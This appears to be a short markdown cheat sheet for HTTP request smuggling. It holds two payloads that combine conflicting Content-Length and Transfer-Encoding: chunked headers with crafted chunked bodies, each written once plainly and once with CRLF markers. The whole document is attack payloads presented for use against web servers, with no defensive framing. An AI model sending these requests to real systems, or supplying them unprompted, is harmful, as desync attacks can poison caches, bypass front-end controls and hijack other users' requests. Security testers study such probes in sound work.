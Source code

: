 # Request Smuggling Cheat Sheet
![alt text](Images/image-18.png)

## Payload 1
### Without special characters
```
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
nap
X

```

### With special characters
```
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
3\r\n
nap\r\n
X\r\n

```

## Payload 2
### Without special characters
```
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

### With special characters
```
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
X
```